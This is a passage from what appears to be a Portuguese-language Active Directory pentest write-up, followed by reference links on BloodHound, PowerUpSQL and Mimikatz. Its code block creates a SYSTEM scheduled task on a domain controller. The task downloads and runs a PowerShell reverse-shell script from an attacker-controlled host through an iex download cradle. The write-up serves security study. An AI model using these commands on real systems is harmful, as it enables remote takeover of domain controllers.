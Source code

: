 ```powershell
schtasks /create /S AB.DC.DOMINIO.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "shell_pra_mim" /TR "powershell.exe -c 'iex(new-object net.webclient).downloadstring(''http://meu.ip/Invoke-PowerShellTCP.ps1'')'"

# Executamos ela
schtasks /Run /S AB.DC.DOMINIO.local /TN "shell_pra_mim"

# E é pra ter recebido o reverse shell na janela do powercat!
```

Mais informações de como esse ataque funciona você encontra no meu blog [Silver Ticket](https://0x4rt3mis.github.io/activedirectory/2020/12/22/Active-Directory-Explorando-Trusts-Tickets/)

## Referencias

**Bloodhound**

https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/

**PowerUpSQL**

https://blog.netspi.com/powerupsql-powershell-toolkit-attacking-sql-server/

https://blog.netspi.com/how-to-hack-database-links-in-sql-server/

**Mimikatz**

https://danieldonda.com/2018/11/14/lsass-dump-pass-the-hash-e-pass-the-ticket/

https://attack.stealthbits.com/pass-the-hash-attack-explained

**Exploração SQL**

https://medium.com/@D00MFist/powerupsql-cheat-sheet-sql-server-queries-40e1c418edc3


